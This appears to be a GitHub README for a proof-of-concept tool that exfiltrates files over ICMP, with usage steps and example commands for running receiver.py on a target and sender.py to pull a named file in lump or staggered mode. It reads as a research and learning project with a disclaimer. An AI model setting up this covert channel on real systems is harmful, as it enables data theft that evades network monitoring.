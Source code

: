 # Project Description 
a passion project to simulate ICMP Smuggling as a form of data exfiltration.
Currently, the project is able to get a file from the server running `receiver.py` through `sender.py`

DISCLAIMER: this is a proof of concept and should not be used for malicious purposes. 
Performing hacking attempts on computers that you do not own (without permission) is illegal!

## Installation Steps
1. Make sure scapy is installed on your system
2. Run receiver.py on the target 
3. Run sender.py on the sender 
4. The file that is retrieved will be saved on the same directory as `sender.py`

## Parameters for Sender.py
- `-i` : The interface to use for sending/receiving the packets
- `-s` : The source IP address (system running `sender.py`)
- `-d` : The destination IP address (system running `receiver.py`)
- `-p` : The payload in the format `get <filename>`
- `-t` : To send the command in staggered / lump mode
- `-c` : The number of chunks to send the payload in. Required if you set -t to `staggered`
- `-e` : Encoding used. Currently it is set to Base64

## Parameters for Receiver.py
- requires sudo privilege to run
- `reply_chunk` : Configure in Receiver.py the number of chunks to break the file into (default set to 1)

### To retrieve a file in lump mode
1. Run `receiver.py` on the target using `sudo python receiver.py` 
2. Run `sender.py` on the sender using `python sender.py -i <interface> -s <source_ip> -d <destination_ip> -p <payload> -t lump 
-e <encoding>`

#### Example usage
1. `sudo python receiver.py`
2. `python sender.py -i bridge100 -s 10.211.55.2 -d 10.211.55.5 -p "get test.txt" -t lump -e base64`

### To retrieve a file in staggered mode
1. Run `receiver.py` on the target using `sudo python receiver.py`
2. Run `sender.py` on the sender using `python sender.py -i <interface> -s <source_ip> -d <destination_ip> -p <payload> -t staggered -c <number_of_chunks> -e <encoding>`

#### Example usage
1. `sudo python receiver.py`
2. `python sender.py -i bridge100 -s 10.211.55.2 -d 10.211.55.5 -p "get test.txt" -t staggered -c 5 -e base64`

## Libraries used 
- Threading
- Scapy 

## Future Work
- IOC detection through Splunk/Moloch/Wireshark 
- Implementing a GUI for the sender and receiver (ReactJS/NodeJS)
